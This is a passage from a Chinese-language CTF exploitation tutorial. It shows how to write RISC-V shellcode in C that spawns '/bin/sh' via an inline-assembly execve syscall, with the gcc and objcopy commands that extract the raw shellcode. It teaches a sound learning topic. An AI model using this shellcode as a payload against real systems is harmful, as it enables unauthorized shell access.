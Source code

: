 更通俗的说就是：**如何保证我们抠出来的代码，就这一段，无论放到哪都能工作？**

##### 字符串存放在栈上

从煜博处习得：[BrieflyX: Favourite Architecture II - Startctf 2021](https://github.com/BrieflyX/ctf-pwns/blob/master/escape/favourite_architecture/workdir/shellcode2.c)

```c
int execve(char* path, int a, int b);

int main() {
    char buf[10];
    buf[0]='/';
    buf[1]='b';
    buf[2]='i';
    buf[3]='n';
    buf[4]='/';
    buf[5]='s';
    buf[6]='h';
    buf[7]='\0';
    execve(buf,0,0);
}

asm(
    "execve:\n"
	"li a7, 221\n"
	"ecall\n"
	"ret\n"
);
```

本代码使用如下方法编译，对于gcc有参数：

1. `-nostdlib`: 不链接系统标准启动文件和标准库文件，这样就不会有多余的启动代码，扣的时候更方便
2. `-e main`: 指明程序入口，由于没有启动代码，故需要让编译器知道程序入口
3. `-static`: 生成静态链接的文件，虽然不需要任何动态库，但为了方便qemu直接测试

使用这些参数即可编译如上的c代码，方法如下：

```c
$ riscv64-linux-gnu-gcc -e main -nostdlib shellcode.c -static -o shellcode
$ riscv64-linux-gnu-objcopy --dump-section .text=sc.bin shellcode
```

本方法通过内联汇编实现了execve系统调用，而用c代码去完成execve的函数调用，写法很trick，原理是：

1. 编译时：声明execve函数原型，使得在main函数中可以使用此函数，语法检查通过，并认为此函数为外部函数，不做处理
2. 汇编时：可以找到execve标号，即可建立正确的引用关系
3. 调用时：在c代码层面的写法就会将对应参数放到a0-a7寄存器中，故可以完成正确调用

这种方法在c代码中使用局部变量来存放`"/bin/sh"`，存放的原理是将其拆分成ascii字符并赋值给栈上变量。看起来代码很重复，但如果直接给一个字符串常量`"/bin/sh"`，则编译器则会其把放到数据段，所以在扣代码的时候以及shellcode的独立工作能力都是个问题。此法的特点是：

1. `"/bin/sh`"这个字符串拆开赋值后，即蕴含在代码的立即数中，不必写数据段存放
2. 在c代码中使用局部变量，编译器即可自动的控制栈，不必手动操控sp指针

最后shellcode的反汇编结果如下，可以自行相面：
